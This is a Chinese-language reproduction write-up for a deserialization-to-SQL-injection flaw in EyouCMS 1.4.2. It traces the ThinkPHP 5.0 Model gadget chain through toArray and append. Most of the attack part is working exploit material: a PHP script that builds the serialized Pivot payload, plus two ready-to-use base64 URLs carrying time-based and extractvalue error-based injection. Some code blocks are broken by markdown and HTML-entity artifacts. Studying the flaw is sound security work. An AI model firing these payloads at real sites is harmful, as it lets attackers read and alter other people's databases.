

# Eyoucms 1.4.2 sql注入

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

介绍漏洞之前先了解下这套CMS，EyouCms是基于TP5.0（5.0.24）框架为核心开发的免费+开源的企业内容管理系统。

Payload:

```
http://0-sec.org/index.php?m=user&c=pay&a=pay_recharge_detail&querystr=YToyOntzOjc6Im1vbmV5aWQiO2k6MTtzOjEyOiJvcmRlcl9udW1iZXIiO086MTc6InRoaW5rXG1vZGVsXFBpdm90Ijo4OntzOjk6IgAqAGFwcGVuZCI7YToxOntzOjQ6InZhYWEiO3M6NDoic2F2ZSI7fXM6NzoiACoAZGF0YSI7YToxOntzOjg6InVzZXJuYW1lIjtzOjg6ImFzZGEyMTIyIjt9czo5OiIAKgBpbnNlcnQiO2E6MDp7fXM6NToiACoAcGsiO3M6NToidXNlcnMiO3M6ODoiACoAZmllbGQiO2E6Mjp7aTowO3M6ODoidXNlcnNfaWQiO2k6MTtzOjg6InVzZXJuYW1lIjt9czo4OiIAKgB0YWJsZSI7czo4OiJleV91c2VycyI7czoxMToiACoAaXNVcGRhdGUiO2I6MTtzOjE0OiIAKgB1cGRhdGVXaGVyZSI7czoyNzoidXNlcnNfaWQgPSA1KSBhbmQgc2xlZXAoNSkjIjt9fQ== 
```

漏洞文件：/EyouCMS-V1.4.2-UTF8-SP2/application/user/controller/Pay.php

漏洞函数：pay_recharge_detail

```
public function pay_recharge_detail()
{
    $querystr   = input('param.querystr/s');
    $querydata  = unserialize(base64_decode($querystr));

```
if (!empty($querydata['moneyid']) &amp;&amp; !empty($querydata['order_number'])) { 
``` 
```

这莫非是？？？没错就是反序列化导致的漏洞（这里标题写了sql注入，其实更准确说应该是增删改查漏洞，如果需要再具体一点那就是THINKPHP反序列化增删改查漏洞）。这里只报错来测试下sql注入

经测试，上述的payload无法执行，因为框架源码替换了

```
public function __call($method, $args)
{
    if (array_key_exists($method, self::$hook)) {
        array_unshift($args, $this);
        return call_user_func_array(self::$hook[$method], $args);
    } else {
        throw new Exception('method not exists:' . __CLASS__ . '->' . $method);
    }
} 
```

先说一下我们的反序列化利用点，到后面会调用__toString函数。而我们这里就可以跳过构造think\process\pipes\Windows 类。直接去构造继承Model类的子类。
流程如下：



toArray()代码在这（一部分）

```
if (!empty($this->append)) {
    foreach ($this->append as $key => $name) {
        if (is_array($name)) {
            // 追加关联对象属性
            $relation   = $this->getAttr($key);
            $item[$key] = $relation->append($name)->toArray();
        } elseif (strpos($name, '.')) {
            list($key, $attr) = explode('.', $name);
            // 追加关联对象属性
            $relation   = $this->getAttr($key);
            $item[$key] = $relation->append([$attr])->toArray();
        } else {
            $relation = Loader::parseName($name, 1, false);
            if (method_exists($this, $relation)) {
                $modelRelation = $this->$relation();       //我是重点我是重点我是重点我是重点我是重点我是重点我是重点我是重点我是重点我是重点我是重点
                $value         = $this->getRelationData($modelRelation);

```
 if (method_exists($modelRelation, 'getBindAttr')) {
                $bindAttr = $modelRelation-&gt;getBindAttr();
                if ($bindAttr) {
                    foreach ($bindAttr as $key =&gt; $attr) {
                        $key = is_numeric($key) ? $attr : $key;
                        if (isset($this-&gt;data[$key])) {
                            throw new Exception('bind attr has exists:' . $key);
                        } else {
                            $item[$key] = $value ? $value-&gt;getAttr($attr) : null;
                        }
                    }
                    continue;
                }
            }
            $item[$name] = $value;
        } else {
            $item[$name] = $this-&gt;getAttr($name);
        }
    }
} 
``` `}` 
```

心细的小伙伴可能发现了

```
$this->$relation(); 
```

呸是个人都能发现好不嘞。这里可以调用当前类下所有方法。而数据库增删改查操作也是定义在Model类下。可以忽略parseName函数（无影响），但如果你非要看，呸，我就是不给你看。

首先append属性是我们可以控制的。我们只需要构造append让他进入else分支就够了。然后我们就可以执行相应的数据库操作函数。save、delete、update等。

构造利用链：

```
<?php
namespace think;
abstract class Model{
    protected $append = [];
    protected $data = [];
    protected $insert = [];
    protected $pk;
    protected $field = [];
    protected $table;
    protected $isUpdate = false;
    protected $updateWhere;
    function __construct(){
        $this->append = ["vaaa"=>"save"];
        $this->data = ["username"=>"asda2122"];
        $this->pk = "users";
        $this->table = "ey_users";
        $this->field = ['users_id','username'];
        $this->isUpdate = true;
        $this->updateWhere = "users_id = 5) and (extractvalue(1,concat(0x5c,(select user()))))#";
    }
}

namespace think\model;

use think\Model;

class Pivot extends Model

{

} `use think\model\Pivot;

$arr[‘moneyid’] = 1;

$arr[‘order_number’] = new Pivot;

echo base64_encode(serialize($arr));

?>` 
```

生成Payload：

```
http://0-sec.org/index.php?m=user&c=pay&a=pay_recharge_detail&querystr=YToyOntzOjc6Im1vbmV5aWQiO2k6MTtzOjEyOiJvcmRlcl9udW1iZXIiO086MTc6InRoaW5rXG1vZGVsXFBpdm90Ijo4OntzOjk6IgAqAGFwcGVuZCI7YToxOntzOjQ6InZhYWEiO3M6NDoic2F2ZSI7fXM6NzoiACoAZGF0YSI7YToxOntzOjg6InVzZXJuYW1lIjtzOjg6ImFzZGEyMTIyIjt9czo5OiIAKgBpbnNlcnQiO2E6MDp7fXM6NToiACoAcGsiO3M6NToidXNlcnMiO3M6ODoiACoAZmllbGQiO2E6Mjp7aTowO3M6ODoidXNlcnNfaWQiO2k6MTtzOjg6InVzZXJuYW1lIjt9czo4OiIAKgB0YWJsZSI7czo4OiJleV91c2VycyI7czoxMToiACoAaXNVcGRhdGUiO2I6MTtzOjE0OiIAKgB1cGRhdGVXaGVyZSI7czo2NToidXNlcnNfaWQgPSA1KSBhbmQgKGV4dHJhY3R2YWx1ZSgxLGNvbmNhdCgweDVjLChzZWxlY3QgdXNlcigpKSkpKSMiO319 
```

